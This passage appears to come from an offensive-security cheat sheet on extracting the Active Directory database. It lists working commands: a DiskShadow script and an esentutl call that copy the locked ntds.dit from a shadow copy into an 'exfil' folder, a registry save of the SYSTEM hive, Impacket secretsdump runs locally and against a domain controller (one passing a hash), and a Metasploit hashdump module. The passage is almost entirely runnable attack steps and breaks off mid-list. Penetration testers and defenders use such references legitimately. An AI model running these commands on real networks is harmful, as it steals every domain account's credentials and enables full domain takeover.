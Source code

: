 #### Using DiskShadow (a Windows signed binary)

```powershell
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

#### Using esentutl.exe

Copy/extract a locked file such as the AD Database

```powershell
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

#### Extract hashes from ntds.dit

then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

#### Alternatives - modules

Metasploit modules

```c
windows/gather/credentials/domain_hashdump
```

PowerSploit module
